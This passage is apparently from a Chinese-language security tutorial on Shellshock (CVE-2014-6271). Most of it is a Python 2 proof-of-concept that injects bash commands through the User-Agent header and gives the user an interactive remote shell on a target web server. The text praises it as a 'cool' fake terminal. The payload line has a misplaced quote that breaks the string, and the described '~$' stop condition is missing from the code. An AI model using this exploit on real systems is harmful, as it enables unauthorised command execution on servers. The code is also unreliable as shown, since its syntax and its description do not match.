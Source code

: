 # 用例 1: CVE-2014-6271

下面这段 Python 写的 Poc 的代码非常的酷(屌哒哒),用户根本感觉不到发生了什么事情. 这个 Poc 执行后就和系统的命令终端一样,不过这个 Poc 它的目的却与系统的不同.这个 Poc 会修改浏览器的 User-Agent 信息,然后不停的向攻击主机发送一个恶意的指令(这里是执行某个特定的命令).

下面这段代码封装了一个无限循环,通过 raw_input 获取用户输入的终止标记，最后提交请求,从下面的这段代码你可以看到 如何去完成一个 HTTP 请求以及如何修改 User-Agent 的内容：

```
#!/usr/bin/python
import sys, urllib2    #导入需要使用的模块

if len(sys.argv) != 2:    # 检查输入命令的格式是否正确 "<script> <URL>"
  print "Usage: "+sys.argv[0]+" <URL>"
  sys.exit(0)

URL=sys.argv[1]        # 把测试的 URL 输出显示出来
print "[+] Attempting Shell_Shock - Make sure to type full path"

while True:        # 通过 raw_input 来获取用户输入的值,如果是"~$"就停止执行 
  command=raw_input("~$ ")
  opener=urllib2.build_opener()        # 修改默认的请求头部,把修改后的 User-Agent 包含进去
  opener.addheaders=[('User-agent', '() { foo;}; echo Content-Type: text/plain ; echo ' /bin/bash -c "'+command+'"')]
  try:                    # 使用 Try/Except 进行错误处理
    response=opener.open(URL)    #提交请求并且显示响应结果
    for line in response.readlines():
      print line.strip()
  except Exception as e: print e 
```

下面的图片是这个脚本执行后的截图,正在测试 ip 地址为[`192.168.56.101`](http://192.168.56.101) 的系统,你可以很清晰的看到执行之后会生成一个和真实命令终端几乎是一样的． 大家其实可以看到这个脚本只是对测试系统发送了一个 HTTP 请求.其他的什么也没有 做.不过最后一张图展示了具体的细节部分:

![shell1](img/0x131.png)

![shell2](img/0x132.png)